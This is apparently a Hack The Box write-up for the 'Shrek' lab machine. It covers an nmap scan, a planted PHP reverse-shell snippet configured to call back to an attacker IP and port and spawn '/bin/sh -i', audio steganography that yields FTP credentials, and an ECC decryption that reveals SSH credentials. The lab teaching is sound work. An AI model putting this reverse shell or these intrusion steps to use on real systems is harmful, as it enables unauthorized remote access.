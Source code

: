 # Shrek
#### 10.10.10.47

```{r, engine='bash', count_lines}
nmap -A -v 10.10.10.47

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.5 (protocol 2.0)
| ssh-hostkey: 
|   2048 2d:a7:95:95:5d:dd:75:ca:bc:de:36:2c:33:f6:47:ef (RSA)
|   256 b5:1f:0b:9f:83:b3:6c:3b:6b:8b:71:f4:ee:56:a8:83 (ECDSA)
|_  256 1f:13:b7:36:8d:cd:46:6c:29:6d:be:e4:ab:9c:24:5b (EdDSA)
80/tcp open  http    Apache httpd 2.4.27 ((Unix))
| http-methods: 
|   Supported Methods: HEAD GET POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.27 (Unix)
|_http-title: Home
Aggressive OS guesses: Actiontec MI424WR-GEN3I WAP (99%), DD-WRT v24-sp2 (Linux 2.4.37) (98%), Linux 3.2 (98%), Microsoft Windows XP SP3 or Windows 7 or Windows Server 2012 (96%), Linux 4.4 (96%), Microsoft Windows XP SP3 (95%), BlueArc Titan 2100 NAS device (91%)
No exact OS matches for host (test conditions non-ideal).

```
Yey we got port 80 so let's have a look at the webpage. Alright we can upload something to the site.. can we read the /uploads/ directory?
Yes we can, secret_ultimate.php sounds interesting, let's have a look at it.

```
<?php

set_time_limit (0);
$VERSION = "1.0";
$end_path = site/secret_area_51 // friggin' finally found the secret dir!!
$ip = '10.10.14.63';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

...

```
okay so apparently there should be a /secret_area_51 directory. And indeed there is.
The only file there is the **Smash Mouth - All Star.mp3**.. I smell steganography.
One of the easiest steganography methods on sound files is hiding someting in the spectogramm so let's check for that.

![spectogramm](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Shrek/images/spectogramm.png "spectogramm")

Alright that was easy, we got the FTP creds: **donkey:d0nk3y1337!**

Oh I love it when they flood you with files.. So scrolling through those text files on the FTP server, you'll find something quite obvious, there are two base64 encrypted strings:

```
UHJpbmNlQ2hhcm1pbmc=
```
which translates to:
```
PrinceCharming
```
and
```
J1x4MDFceGQzXHhlMVx4ZjJceDE3VCBceGQwXHg4YVx4ZDZceGUyXHhiZFx4OWVceDllflAoXHhmN1x4ZTlceGE1XHhjMUtUXHg5YUlceGRkXFwhXHg5NXRceGUxXHhkNnBceGFhInUyXHhjMlx4ODVGXHgxZVx4YmNceDAwXHhiOVx4MTdceDk3XHhiOFx4MGJceGM1eVx4ZWM8Sy1ncDlceGEwXHhjYlx4YWNceDlldFx4ODl6XHgxM1x4MTVceDk0RG5ceGViXHg5NVx4MTlbXHg4MFx4ZjFceGE4LFx4ODJHYFx4ZWVceGU4Q1x4YzFceDE1XHhhMX5UXHgwN1x4Y2N7XHhiZFx4ZGFceGYwXHg5ZVx4MWJoXCdRVVx4ZTdceDE2M1x4ZDRGXHhjY1x4YzVceDk5dyc=
```
which translates to:
```
'\x01\xd3\xe1\xf2\x17T \xd0\x8a\xd6\xe2\xbd\x9e\x9e~P(\xf7\xe9\xa5\xc1KT\x9aI\xdd\\!\x95t\xe1\xd6p\xaa"u2\xc2\x85F\x1e\xbc\x00\xb9\x17\x97\xb8\x0b\xc5y\xec<K-gp9\xa0\xcb\xac\x9et\x89z\x13\x15\x94Dn\xeb\x95\x19[\x80\xf1\xa8,\x82G`\xee\xe8C\xc1\x15\xa1~T\x07\xcc{\xbd\xda\xf0\x9e\x1bh\'QU\xe7\x163\xd4F\xcc\xc5\x99w'
```

okay this looks like some ECC encryption. Let's load up our python module **seccure**, you can read about it here: https://pypi.python.org/pypi/seccure

```
>>> import seccure
>>> seccure.decrypt('\x01\xd3\xe1\xf2\x17T \xd0\x8a\xd6\xe2\xbd\x9e\x9e~P(\xf7\xe9\xa5\xc1KT\x9aI\xdd\\!\x95t\xe1\xd6p\xaa"u2\xc2\x85F\x1e\xbc\x00\xb9\x17\x97\xb8\x0b\xc5y\xec<K-gp9\xa0\xcb\xac\x9et\x89z\x13\x15\x94Dn\xeb\x95\x19[\x80\xf1\xa8,\x82G`\xee\xe8C\xc1\x15\xa1~T\x07\xcc{\xbd\xda\xf0\x9e\x1bh\'QU\xe7\x163\xd4F\xcc\xc5\x99w',b'PrinceCharming')
'The password for the ssh file is: shr3k1sb3st! and you have to ssh in as: sec\n'
```